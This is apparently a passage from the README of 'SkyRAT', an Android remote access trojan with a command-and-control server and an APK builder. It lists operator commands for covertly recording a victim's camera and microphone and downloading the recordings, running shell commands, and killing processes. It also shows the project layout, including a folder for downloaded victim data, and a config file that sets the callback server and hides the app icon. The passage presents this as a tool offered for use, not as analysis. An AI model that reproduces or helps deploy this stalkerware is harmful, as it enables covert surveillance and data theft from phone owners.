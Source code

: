 #### Recording
```bash
SkyRAT:/> camList           # List available cameras
SkyRAT:/> startVideo 0      # Start video recording
SkyRAT:/> stopVideo         # Stop and download video
SkyRAT:/> startAudio        # Start audio recording
SkyRAT:/> stopAudio         # Stop and download audio
```

#### System Control
```bash
SkyRAT:/> shell ls -la      # Execute shell command
SkyRAT:/> ps                # List running processes
SkyRAT:/> kill com.app.name # Kill process
SkyRAT:/> vibrate 3         # Vibrate device
```

### Help System
```bash
SkyRAT:/> help              # Show all available commands
SkyRAT:/> clear             # Clear screen
SkyRAT:/> exit              # Exit connection
```

## 📂 Project Structure

```
SkyRAT/
├── skyrat.py                 # Main entry point
├── utils/                    # Core utilities
│   ├── server.py            # C&C server functionality
│   ├── builder.py           # APK building logic
│   ├── network.py           # Network utilities
│   └── __init__.py          # Package initialization
├── android/                  # Android source code
│   ├── app/src/main/java/   # Java/Kotlin source
│   └── build.gradle.kts     # Build configuration
├── build/                    # Output APKs
├── dumps/                    # Downloaded data
├── tools/                    # Build scripts
└── docs/                     # Documentation
```

## ⚙️ Configuration

### Server Configuration
Edit `android/app/src/main/java/com/techsky/skyrat/Config.kt`:
```kotlin
object Config {
    const val IP = "YOUR_SERVER_IP"
    const val PORT = "YOUR_SERVER_PORT"
    const val ICON = true  // true = hidden, false = visible
}
```
